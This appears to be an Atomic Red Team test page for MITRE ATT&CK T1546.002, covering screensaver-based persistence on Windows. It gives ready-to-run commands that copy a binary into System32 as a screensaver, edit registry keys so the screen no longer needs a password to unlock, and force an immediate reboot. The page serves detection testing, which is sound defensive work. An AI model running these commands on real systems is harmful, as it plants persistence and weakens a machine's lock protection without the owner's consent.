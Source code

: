 # T1546.002 - Screensaver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/002)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by user inactivity. Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code>  on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity. (Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```






<br/>
